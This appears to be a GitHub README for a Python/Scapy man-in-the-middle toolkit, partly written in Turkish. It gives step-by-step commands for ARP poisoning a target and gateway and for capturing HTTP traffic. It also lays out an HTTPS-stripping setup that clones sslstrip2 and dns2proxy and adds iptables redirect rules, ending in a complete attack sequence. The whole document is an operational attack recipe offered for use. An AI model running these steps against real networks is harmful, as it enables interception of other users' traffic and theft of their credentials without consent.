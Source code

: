 # Simple Mitmf Framework

**Man-In-The-Middle** Software Made Using Scapy with Python3

## Gerekli Paketlerin kurulması :
```
- pip3 install scapy
- pip3 install scapy_http

OR 

- pip3 install -r requirements.txt
```
## IP Forward 

```
- echo 1 > /proc/sys/net/ipv4/ip_forward
```



# Arp_Poison.py

>- Performs **ARP Poisoning** by Sending ARP Packets.

## Kullanım :

```
- python3 arp_poison.py -t x.x.x.x -g x.x.x.x
```


# Listener.py

> - Captures and Prints All **HTTP** Packets After ARP Poisoning.

## Usage : 
```
- python3 listener.py -i wlan0
```

Instead of **Listener.py** You Can Use Any Network Listening Software. Ex: **Wireshark**

# Bypass HTTPS:

## Downloading Required Applications:

```
git clone https://github.com/byt3bl33d3r/sslstrip2
git clone https://github.com/singe/dns2proxy
```

## IP Table Configuration:

**For SSLStrip:**

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
```
**For DNS2Proxy:**
```
iptables -t nat -A PREROUTING -p udp --destination-port 53 -j REDIRECT --to-port 53
```

## Usage : 
```
- echo 1 > /proc/sys/net/ipv4/ip_forward

- python3 arp_poison.py -t x.x.x.x -g x.x.x.x

- python3 sslstrip.py

- python3 dns2proxy.py

- python3 listener.py -i wlan0
